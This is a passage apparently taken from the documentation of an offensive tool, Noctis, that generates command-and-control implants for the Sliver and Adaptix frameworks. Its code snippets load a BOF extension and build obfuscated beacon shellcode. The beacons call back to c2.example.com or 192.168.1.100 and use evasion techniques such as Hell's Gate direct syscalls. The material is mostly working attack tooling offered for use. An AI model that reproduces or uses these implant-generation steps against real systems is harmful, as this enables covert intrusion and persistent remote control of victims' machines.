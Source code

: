 ```python
    print(f"extension.json: {bof_result.extension_json}")
```

**Load BOF in Sliver:**
```bash
# Load extension
sliver > extensions load /path/to/bof_output/

# Execute BOF
sliver > noctis_syscalls [args]
```

### Sliver Configuration

```python
from c2_adapters.config import SliverConfig, Protocol, Architecture

config = SliverConfig(
    listener_host="c2.example.com",
    listener_port=443,
    protocol=Protocol.HTTPS,
    architecture=Architecture.X64,

    # Beacon settings
    sleep_time=60,
    jitter=30,

    # Output format
    output_format=OutputFormat.SHELLCODE,

    # Noctis techniques
    techniques=["NOCTIS-T004", "NOCTIS-T002", "NOCTIS-T005"]
)
```

---

## Adaptix C2

### Installation

Follow Adaptix documentation: https://adaptix-framework.gitbook.io

### Starting Adaptix Server

```bash
# Start Adaptix server (refer to official docs)
./adaptix-server start
```

### Generate Beacon with Noctis

**Python API:**
```python
from c2_adapters import generate_adaptix_beacon

result = generate_adaptix_beacon(
    listener_host="192.168.1.100",
    listener_port=443,
    protocol="https",
    architecture="x64",
    techniques=["NOCTIS-T004"],  # Hell's Gate
    obfuscate=True
)

```